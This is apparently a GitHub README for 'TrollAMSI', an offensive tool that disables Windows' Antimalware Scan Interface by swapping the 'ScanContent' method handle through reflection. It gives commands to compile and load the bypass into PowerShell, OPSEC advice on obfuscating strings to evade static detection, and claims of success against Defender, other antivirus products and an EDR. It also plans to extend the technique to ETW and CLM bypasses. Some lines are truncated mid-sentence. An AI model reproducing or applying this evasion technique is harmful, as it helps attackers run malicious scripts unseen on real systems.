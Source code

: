 # TrollAMSI
Uses reflection to get handle to "ScanContent" method. Swaps the handle with   

This new technique is called "Reflection with method swapping". Opens doors for other techniques such as ETW and CLM.

# Benefits
- No P/Invoke or win32 API calls or calls to virtualprotect, etc
- No amsi.dll patching
- 
# Usage 

## IEX 
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll WorkingAMSIbypass.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[Tro
```
## Compiled
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

# OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that IEX method will temporarily write to disk.

# TESTING
- Tested on win defender, 2 AV and 1 EDR 
- Eitherway security products monitor amsi.dll and the relevant winapi calls which we do not touch
  
# Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - CLM enforcement
  - maybe there's more?
  
# Disclaimer
Should only be used for educational purposes!
